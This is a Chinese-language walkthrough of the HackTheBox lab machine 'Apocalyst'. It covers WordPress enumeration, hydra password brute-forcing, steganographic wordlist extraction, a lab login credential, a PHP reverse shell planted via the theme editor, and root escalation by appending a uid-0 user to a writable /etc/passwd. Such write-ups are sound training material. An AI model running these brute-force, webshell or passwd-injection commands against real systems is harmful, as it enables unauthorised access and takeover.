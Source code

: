 ```yaml
---
title: Apocalyst（CTF-like）
categories:
- training
tags:
- training
---
```

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- 访问发现很慢
- `wget http://10.10.10.46 `，发现一个域名
- `echo 10.10.10.46 apocalyst.htb >> /etc/hosts`
- 访问`http://apocalyst.htb`

```
wpscan --url 10.10.10.46 --enumerate
Scan Aborted: Unable to identify the wp-content dir, please supply it with --wp-content-dir
于是用域名作为地址扫描
---
wpscan --url apocalyst.htb --enumerate
[!] 27 vulnerabilities identified:
---
wpscan --url 10.10.10.46 --enumerate p --enumerate u
wpscan --url http://apocalyst.htb/ --plugins-detection aggressive
gobuster -u http://10.10.10.46 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
---
searchsploit wordpress twentyseventeen
```
## info
WordPress version 4.8 
http://apocalyst.htb/wp-login.php
用户名：falaraki
没有发现任何插件

```
cd /usr/share/seclists/

hydra -l falaraki -P /usr/share/wordlists/500-worst-passwords.txt -f apocalyst.htb http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fapocalyst.htb%2Fwp-admin%2F&testcookie=1:ERROR"

hydra -l falaraki -P /usr/share/wordlists/500-worst-passwords.txt 10.10.10.46 ssh

hydra -l falaraki -P /usr/share/wordlists/3000-pass.txt -f apocalyst.htb http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fapocalyst.htb%2Fwp-admin%2F&testcookie=1:ERROR"
弱密码未发现

wpscan --url http://apocalyst.htb/wp-login.php --wordlist /usr/share/wordlists/500-worst-passwords.txt --username falaraki
失败
```
CVE-2019-8942:需要一个author用户，才能远程代码执行

## 确认漏洞
- 目录遍历：

```
http://apocalyst.htb/wp-content/uploads/2017/07/
http://apocalyst.htb/wp-content/upgrade/
```
## writeup
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-21-06/1.PNG)

steghide extract -sf image.jpg

扫描web时候，发现很多网页301跳转到一张图片。通过隐藏术，提取一个list.txt，然后暴力破解就得到口令登陆web后台。

```
wpscan --url http://10.10.10.46 --wordlist /root/Desktop/46/wordlist.txt --username falaraki
wpscan版本更新后，不支持--wordlist参数了，顺便提一句，我讨厌暴力破解

hydra -l falaraki -P /root/Desktop/46/wordlist.txt -f apocalyst.htb http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fapocalyst.htb%2Fwp-admin%2F&testcookie=1:ERROR"
```
falaraki/Transclisiation

appearance-editor-修改404.php为php-reverse-shell.php，然后访问一个不存在的页面
`apocalyst.htb/?p=9999`

get webshell:  www-data

---

## 提权

```
/usr/bin/python3.5 -c 'import pty; pty.spawn("/bin/bash")'

ls -al /etc/passwd
发现可读可写权限

openssl生成密文
openssl passwd -help
openssl passwd -1 -salt ippsec hackthebox

echo "ippsec:\$1\$ippsec\$bO.JNJVLhnoduioFs74jX1:0:0:root:/root:/bin/bash" >> /etc/passwd

注意$字符需要\转义，否则不会写入passwd文件

su ippsec
hackthebox
```
## 总结
以后遇到ctf-like的靶机都绕着走。
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-21-06/2.PNG)



